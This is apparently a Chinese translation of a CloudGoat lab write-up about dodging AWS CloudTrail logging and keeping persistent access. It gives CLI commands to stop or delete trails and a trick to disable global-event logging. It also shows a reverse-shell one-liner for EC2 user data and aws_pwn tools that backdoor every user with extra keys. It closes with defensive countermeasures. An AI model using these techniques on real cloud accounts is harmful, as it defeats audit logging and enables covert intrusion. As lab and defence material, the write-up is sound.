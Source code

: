 > 原文链接: https://www.anquanke.com//post/id/170618 


# CloudGoat云靶机 Part-2：绕过CloudTrail实现持久访问


                                阅读量   
                                **137601**
                            
                        |
                        
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



##### 译文声明

本文是翻译文章，文章原作者rzepsky，文章来源：medium.com
                                <br>原文地址：[https://medium.com/@rzepsky/playing-with-cloudgoat-part-2-fooling-cloudtrail-and-getting-persistence-access-6a1257bb3f7c](https://medium.com/@rzepsky/playing-with-cloudgoat-part-2-fooling-cloudtrail-and-getting-persistence-access-6a1257bb3f7c)

译文仅供参考，具体内容表达以及含义原文为准

[![](https://p0.ssl.qhimg.com/dm/1024_575_/t01e57150d9f8db6936.jpg)](https://p0.ssl.qhimg.com/dm/1024_575_/t01e57150d9f8db6936.jpg)

在第一篇文章中，我分享了一个AWS提权实例：从一个仅有EC2权限的账户提权至管理员权限。今天，我将继续本系列，向大家展示如何绕过监控系统和如何实现持久访问。

[![](https://p4.ssl.qhimg.com/t0145bef55af8d19934.png)](https://p4.ssl.qhimg.com/t0145bef55af8d19934.png)

## CloudTrail

CloudTrail服务会监控所有的AWS活动。亚马逊是这样介绍它的：

> “AWS CloudTrail 是一项 AWS 服务，可帮助对您的 AWS 账户进行监管、合规性检查、操作审核和风险审核。用户、角色或 AWS 服务执行的操作将记录为 CloudTrail 中的事件。事件包括在 AWS 管理控制台、AWS Command Line Interface 和 AWS 开发工具包和 API 中执行的操作。简化了安全性分析，资源更改检测，故障排除等过程。”

换句话说，CloudTrail是个“老大哥”，监视着用户的所有行为。很显然，攻击者拿下一个脆弱的环境后，第一件事就是绕过检测系统，清除痕迹。如果攻击者拿下了管理员权限，实现这些并不是不可能的。

### <a class="reference-link" name="%E4%BA%86%E8%A7%A3%E9%85%8D%E7%BD%AE"></a>了解配置

CloudTrail服务默认是关闭的，管理员可以配置它。你可以设置“trails”来自定义监视的内容。

回到CloudGoat平台，让我们来看看CloudTrail监视的范围。

[![](https://p4.ssl.qhimg.com/t018ff4c22a2ba6c98d.png)](https://p4.ssl.qhimg.com/t018ff4c22a2ba6c98d.png)

可以看到，所有的日志文件都存储在一个名为“8678170722044418295491212493322823229141751439696325418”的S3储存桶中。还有CloudGoat中的CloudTrail仅监视了“us-west-2”区域。所以我们可以开展区域外的行动了，比如我们创建在其他区域创建一个新实例，这并不会被CloudTrail监控到。还有一点，请注意，使用全球服务将会被记录下来，像“IAM”（比如创建一个备用账户）。那么，攻击者如何绕过CloudTrail监控服务？

### <a class="reference-link" name="%E4%B8%AD%E6%AD%A2%E6%9C%8D%E5%8A%A1"></a>中止服务

首先，所有的入侵者都会想到这点。暂停服务用以下简单的命令实现：

[![](https://p2.ssl.qhimg.com/t01a400cf4582cb8735.png)](https://p2.ssl.qhimg.com/t01a400cf4582cb8735.png)

然后，攻击者可能会执行一些有害操作（例如窃取数据，创建IAM备用账户，创建新实例用于挖矿）。完成攻击后，可以以下命令启动CloudTrail：

```
$ aws cloudtrail start-logging --name cloudgoat_trail --profile administrator
```

### <a class="reference-link" name="%E5%88%A0%E9%99%A4trails"></a>删除trails

通过删除所有trail也可以中止CloudTrail服务：

```
$ aws cloudtrail delete-trail --name cloudgoat_trail --profile administrator
```

或者，你移除存储日志信息的储存桶也可以做到（你过你那么做，记住添加一个`force`标签，否则你即使有管理员权限也无法删除储存桶）

[![](https://p1.ssl.qhimg.com/t01779068adf19a1add.png)](https://p1.ssl.qhimg.com/t01779068adf19a1add.png)

在删除trails或者储存桶后，CloudTrail将处于宕机状态。还有一点，这两个方法有点高调，因为CloudTrail中会有最终的回显。例如当你删除了储存桶后，CloudTrail会有这样的提示：

[![](https://p2.ssl.qhimg.com/t016646da88de30815e.png)](https://p2.ssl.qhimg.com/t016646da88de30815e.png)

GuardDuty（另一个监控服务）也会对CloudTrail服务的异常状态发出警报：

[![](https://p4.ssl.qhimg.com/t012a03c16201be6f8e.png)](https://p4.ssl.qhimg.com/t012a03c16201be6f8e.png)

### <a class="reference-link" name="%E6%9B%B4%E5%A5%BD%E7%9A%84%E6%96%B9%E6%B3%95"></a>更好的方法

如果开启了CloudTrail，它默认监视所有区域。然而我们的CloudGoat平台中仅监视“us-west-2” 区域，所以我们可以在其他区域创建EC2实例，而不用担心被监控到。

对于全球服务，前面已经说过了，任何操作都会被监控到。幸运的是，你可以用标签`include-global-service-events`关闭全球服务中的事件监视。为了验证是否有效，我创建了一个用户“test1”，然后关闭了全球服务事件监视:

[![](https://p2.ssl.qhimg.com/t01338d5db4931bd576.png)](https://p2.ssl.qhimg.com/t01338d5db4931bd576.png)

然后我创建了用户“test2”:

[![](https://p5.ssl.qhimg.com/t01003ef9d4916b613d.png)](https://p5.ssl.qhimg.com/t01003ef9d4916b613d.png)

我用Bob的密钥暂停了EC2实例（检查“us-west-2”的所有事件是否正确记录）。在CloudTrail中，可以看到这里有记录”test1“用户的创建，而没有”test2“的记录：

[![](https://p1.ssl.qhimg.com/t01f5be7fc688e42d1b.png)](https://p1.ssl.qhimg.com/t01f5be7fc688e42d1b.png)

用这种方法，攻击者可以绕过CloudTrail服务的监视。还有其他的方法避免被CloudTrail记录：
1. 使用新密钥加密所有日志（禁用该密钥，一段时间后删除）
1. 使用新的S3储存桶（攻击者完成删除它，然后再换回原先的储存桶）。
1. 使用AWS Lambda拒绝新日志记录（不需要更改CloudTrail的trails配置，你只需要这些权限“iam:CreatePolicy”, “iam:AttachRolePolicy”, “lambda:CreateFunction”, “lambda:AddPermission”, “s3:PutBucketNotification”）
如果这些方法不切合实际情况，[Daniel Grzelak的一篇文章](https://danielgrzelak.com/disrupting-aws-logging-a42e437d6594)可能会帮到你。

> 需要注意的是，以上所有方法虽然可以避免CloudTrail日志被记录到储存桶中，但是****所有的操作还是会CloudTrail事件系统储存90天****。包括所有区域的事件都会被储存且无法关闭存储系统。[这里](https://summitroute.com/blog/2018/08/07/aws_cloudtrail_vs_cloudwatch_events_vs_event_history/)你可以了解详情。

[![](https://p0.ssl.qhimg.com/t01df11d4705afbbf85.png)](https://p0.ssl.qhimg.com/t01df11d4705afbbf85.png)



## 持久访问

在获取管理员权限，并且知道如何绕过CloudTrail监视器后，那么是时候在该环境实现持久访问了。有很多方法可以在该环境下留下后门，比如：
1. 用高权限账户修改用户数据（使用bash命令`bash -i &gt;&amp; /dev/tcp/[your_ip]/[your_port] 0&gt;&amp;1`或者获取SSH密钥认证）
1. 添加AMI备用账户后，用它创建新EC2实例
1. 在Lambda函数中添加后门（比如，某个参数调用该函数后导致创建一个新用户）
较好的方法是给现有的用户分配额外的密钥，[aws pwn](https://github.com/dagrz/aws_pwn)可以帮助你做到这点。然而aws pwn还可以帮助你自动化地完成很多事：
<li>
****rabbit_lambda****—  Lambda函数，可以不断地删除某个用户再创建它，实现干扰删除用户的事件记录系统。</li>
<li>
****cli_lambda**** —  Lanmbda函数，可以无需凭证创建AWS CLI代理</li>
<li>
****backdoor_created_users_lambda**** — Lambda函数，可以给新用户添加密钥</li>
<li>
****backdoor_created_roles_lambda**** — Lambda函数，给新用户之间添加信任关系</li>
<li>
****backdoor_created_security_groups_lambda****— Lambda函数，把新入站规则应用到所有安全组</li>
<li>
****backdoor_all_users****— 可以给账户中的用户添加密钥</li>
<li>
****backdoor_all_roles**** — 可以给所有用户之间添加信任关系（设置[ARN](https://docs.aws.amazon.com/zh_cn/general/latest/gr/aws-arns-and-namespaces.html)）</li>
让我们回到CloudGoat平台环境，给所有用户添加密钥：

[![](https://p2.ssl.qhimg.com/t01a61429b8e3499060.png)](https://p2.ssl.qhimg.com/t01a61429b8e3499060.png)

好的，现在所有用户都有两个密钥了。我们可以再AWS管理中心看到：

[![](https://p0.ssl.qhimg.com/t01892c387b2ac1ed0d.png)](https://p0.ssl.qhimg.com/t01892c387b2ac1ed0d.png)

有趣的是，用户不会收到添加密钥的通知。对于CloudTrail来说，因为关闭了全球服务事件的通知，所以不会有日志记录。那么，GuardDuty（AWS监控系统）会有什么不同？

> <p>Amazon是这样描述GuardDuty服务的“<br>
Amazon GuardDuty 是一种智能威胁检测服务，帮助保护您的 AWS 账户和工作负载。”</p>

所以，它不会把有权限地IAM用户正常创建新密钥识别为异常活动：

[![](https://p0.ssl.qhimg.com/t01c4f8a97fa4e5a1ed.png)](https://p0.ssl.qhimg.com/t01c4f8a97fa4e5a1ed.png)



## 应对措施

这篇文章介绍了绕过CloudTrail监视系统和如何实现持久访问。你应该发现了，这不是一项艰巨的任务。那么，我们该如何防止这些东西发生呢？
1. 启用[CloudTrail日志完整性保护](https://docs.aws.amazon.com/awscloudtrail/latest/userguide/cloudtrail-log-file-validation-intro.html)，以防止攻击者替换日志的S3储存桶。
1. 除了极少数需要使用它的用户（遵循最小权限原则，[Netflix的Repokid](https://github.com/Netflix/repokid)可以快速地帮助你），删除所有用户的CloudTrail管理权限（有助于防止攻击者提权，[这里](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)可以帮助你）
1. 设置其他AWS账户管理CloudTrail S3储存桶的[跨区域复制](https://docs.aws.amazon.com/zh_cn/AmazonS3/latest/dev/crr.html)权限。即使主账户的AWS环境被攻击者入侵，CloudTrail日志也无法更改。
1. 启用[MFA删除保护](https://docs.aws.amazon.com/zh_cn/AmazonS3/latest/dev/UsingMFADelete.html)，增加了删除储存桶内容的难度。
1. 使用其他公司的服务备份CloudTrail日志（例如：[ Splunk](https://aws.amazon.com/cloudtrail/partners/splunk/)）。
1. 启用多种监视器，比如[AWS AWS CloudWatch Events](https://docs.aws.amazon.com/zh_cn/AmazonCloudWatch/latest/events/WhatIsCloudWatchEvents.html), 外部服务：[Cloudsploit Events](https://blog.cloudsploit.com/introducing-cloudsploit-events-fb2b4822130a) , [CloudTrail Listener](https://www.gorillastack.com/aws-cloudtrail-slack-integration/)。